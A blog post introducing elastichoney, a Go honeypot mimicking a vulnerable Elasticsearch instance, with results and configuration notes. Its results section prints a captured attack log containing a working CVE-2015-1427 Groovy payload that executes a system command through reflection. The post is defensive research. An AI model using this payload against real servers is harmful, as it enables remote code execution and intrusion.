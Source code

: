 ```yaml
---
layout: post
title: "Introducing elastichoney - an Elasticsearch Honeypot"
date: 2015-03-23 6:30
comments: true
published: true
categories:
- go
- elasticsearch
- honeypot
---
```

<img src="{{root_url}}/images/headers/elastichoney.png"/>

### Introduction
I recently [wrote](/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/) about an Elasticsearch RCE vulnerability that is being heavily exploited in the wild. To see what kind of attacks are taking place, I decided to write a simple honeypot designed to mimic a vulnerable Elasticsearch (ES) instance. Say hello to [elastichoney](http://github.com/jordan-wright/elastichoney)!
<!--more-->
### How it Works
This honeypot is pretty simple. It takes requests on the ```/```, ```/_search```, and ```/_nodes``` endpoints and returns a JSON response that is identical to a vulnerable ES instance (should be identical - I took the responses straight from one of my hosts that got 0wned).

Attacks are logged as soon as they are detected. By default, elastichoney logs the attacks in JSON format to ```stdout```, as well as to a file called ```elastichoney.log```.

It's important to note that this is by no means foolproof. Clever people can take a look at [the code](http://github.com/jordan-wright/elastichoney) and quickly find ways to detect the honeypot. It's not perfect, but it works. Let's take a look at some results.

### Results
Very quickly after I deployed the honeypot, I started getting hit by attackers scanning large swathes of the Internet looking for vulnerable systems. To date, I've seen approx. 2000 attacks from over 60 unique IP's over the course of a few days, all without advertising my elastichoney instance anywhere.

Here's an entry from my logs that is attempting to exploit the CVE-2015-1427 that I wrote about:

``` json
{
    "source": "[redacted]",
    "@timestamp": "2015-03-23T13:34:22.519890008-05:00",
    "url": "[redacted]:9200/_search?pretty",
    "method": "POST",
    "form": "pretty=&{\"script_fields\":+{\"iswin\":+{\"lang\":+\"groovy\",+\"script\":+\"java.lang.Math.class.forName(\\\"java.io.BufferedReader\\\").getConstructor(java.io.Reader.class).\\tnewInstance(java.lang.Math.class.forName(\\\"java.io.InputStreamReader\\\").getConstructor(java.io.InputStream.\\tclass).newInstance(java.lang.Math.class.forName(\\\"java.lang.Runtime\\\").getRuntime().exec(\\\"whoami\\\").\\tgetInputStream())).readLines()\"}},+\"size\":+1}=",
    "payload": "",
    "headers": {
        "user_agent": "Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.120 Safari/537.36",
        "host": "[redacted]:9200",
        "content_type": "application/x-www-form-urlencoded",
        "accept_language": ""
    },
    "type": "attack",
    "honeypot": "[redacted]"
}
```
Now, I'm sure you're interested in some samples. [Here's](https://gist.githubusercontent.com/jordan-wright/f63575681373f91e462f/raw/b446a9d3bb042aac425970d73c129d4d936478aa/elastichoney.log) a bit of what I have so far. There's some nifty ```wget``` calls in there if you grab them fast enough.

Enjoy!

### Want to Run This Yourself?
*Awesome.* Let's take a look at what it takes to get elastichoney up and running. Installation should take about... 5 seconds. Since this is written in Go, I can provide binaries for most platforms. If you're interested in running elastichoney yourself, just download [the right binary](http://github.com/jordan-wright/elastichoney/releases) for your system, edit the config to your liking, and start it up!

Let's talk about some of the config options. The first option to note is ```use_remote```. I mentioned that elastichoney will log to ```stdout``` and a file by default. You can set this option to also have the honeypot send an HTTP ```POST``` containing the JSON entry to a remote server of your choosing. Personally, I have my entries going to a real elasticsearch instance so I can search on them later.<sup>1</sup>

The second config option that you may want to play with is the ```spoofed_version``` option. This lets you pick what version of ES you want your honeypot to show up as. This helps if you are looking for attackers targeting specific systems (such as those targeting the <=v1.2 RCE vuln vs the most recent RCE vuln).

Finally, the last option you might set is the ```anonymous``` option. This simply determines if you want your honeypot IP to show up in logs. If so, elastichoney will make a single call out to icanhazip.com when it starts up to get the external IP. Otherwise, it'll just use ```1.1.1.1```<sup>2</sup>. This is helpful if you want to create an anonymous cluster of honeypots.

As always, let me know if you have any questions or comments below.

-Jordan ([@jw_sec](https://twitter.com/jw_sec))

[1] Irony.<br/>
[2] Big shout-out to the person actually on ```1.1.1.1```.
